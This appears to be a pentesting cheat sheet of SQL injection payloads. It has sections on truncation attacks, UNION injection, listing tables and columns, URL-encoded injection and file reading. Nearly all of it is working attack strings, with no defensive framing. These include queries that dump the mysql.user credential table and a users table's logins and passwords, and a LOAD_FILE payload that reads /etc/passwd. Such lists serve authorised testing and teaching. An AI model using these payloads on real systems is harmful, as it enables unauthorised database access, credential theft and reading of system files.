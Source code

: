### SQL Truncation Attack

> https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html

```c
'admin@<FQDN>' = 'admin@<FQDN>++++++++++++++++++++++++++++++++++++++htb' (URL encoded instead of spaces)
```

### SQL UNION Injection

```c
foobar" UNION SELECT NULL, NULL, @@hostname, @@version; #
foobar" UNION SELECT NULL, NULL, NULL, SCHEMA_NAME FROM information_schema.SCHEMATA; #
foobar" UNION SELECT 1, user, password, authentication_string FROM mysql.user; #
```

### List Tables

```c
UNION SELECT 1,table_name,3,4 FROM information_schema.tables;
```

### List Columns

```c
UNION SELECT 1,column_name,3,4 FROM information_schema.columns;
```

### Username and Password Fields

```c
UNION SELECT 1,concat(login,':',password),3,4 FROM users;
```

### Example of UNION Injection with enumerating information_schema

```c
SELECT group_concat(table_name,":",column_name,"\n") FROM information_schema.columns where table_schema = 'employees'
```

### URL Encoded SQL Injection

```c
http://<RHOST>/database.php?id=1%20UNION%20SELECT%201,concat%28table_name,%27:%27,%20column_name%29%20FROM%20information_schema.columns
```

### File Read

```c
uname=foo' UNION ALL SELECT NULL,LOAD_FILE('/etc/passwd'),NULL,NULL,NULL,NULL; -- &password=bar
```
